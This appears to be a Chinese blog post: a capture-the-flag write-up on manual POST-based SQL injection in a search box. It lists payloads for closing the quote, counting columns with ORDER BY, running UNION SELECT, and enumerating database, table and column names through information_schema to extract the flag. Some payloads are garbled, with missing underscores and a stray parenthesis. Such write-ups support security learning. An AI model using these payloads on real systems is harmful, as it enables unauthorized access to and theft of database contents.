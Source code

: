 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为`http://www.xxx.com?test=123` ，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

>

>**一个简单的输入搜索框**

>

## 考察点：
>**sql注入中的post注入。**

>一般有两种方式：

>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

>第二种方式，通过手工注入，构造`payload`，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入`search='`，发现页面出错，可知存在注入的可能。继续输入`search=' and 1=1`，发现依然报错，`search=' and 1=1#` 发现变回正常页面。证明存在注入点，可用'  #进行闭合。

>如何理解所构造的payload？

>

>OK,简单的解释一下SQL语句.我们搜索的内容是 `' and 1=1 # `,代入到数据库的语句是:` select * from XXX where search = ' ' and 1=1 #'`，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:`select * from XXX where content = ' ' and 1=1`,这个语句理解就很简单了。

> 3.用`order by` 查询当前页面连接的列名个数：`search=' order by 1# `页面返回正常 ，直到4，页面开始出错，说明有3个。

> 4.使用`union` 联合查询 显错点，输出点，语句：`search='  union select 1,2,3# `，页面爆出显位2，3。

> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造`search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# `,得到数据库名为news。

> 6.接着获取表名，构造`search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # `，得到表名为**f1agfl4gher3。**

> 注意：这里需要把数据库名称`news`做了一个16进制Hex编码，编码之后为`0x6E657773 `。

>7.同理获取列名：`search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# ` ，得到列名为**h3r31sfl4g。**

> 8.最后获取数据，`search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # `，得到flag！

 **flag{sql_ information_ schema_ hack}**





[参考链接（一）：](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)

[参考链接（二）：](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
